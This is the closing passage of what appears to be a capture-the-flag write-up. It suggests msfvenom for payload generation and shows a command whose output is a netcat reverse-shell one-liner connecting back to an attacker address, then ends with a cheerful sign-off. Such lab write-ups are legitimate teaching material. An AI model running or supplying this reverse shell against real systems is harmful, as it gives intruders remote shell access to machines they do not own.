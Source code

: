 **Tip**: Check out also `msfvenom` to create such kinds of payloads:

````commandline
$ msfvenom -p cmd/unix/reverse_netcat lhost=10.8.208.30 lport=8888 revshell

[-] No platform was selected, choosing Msf::Module::Platform::Unix from the payload
[-] No arch selected, selecting arch: cmd from the payload
No encoder specified, outputting raw payload
Payload size: 89 bytes
mkfifo /tmp/kdje; nc 10.8.208.30 8888 0</tmp/kdje | /bin/sh >/tmp/kdje 2>&1; rm /tmp/kdje
````

## Mission accomplished

I think the mission is accomplished by now and we are done! Hopefully you enjoyed like how I enjoyed this one.

Greetz and Peace & Love
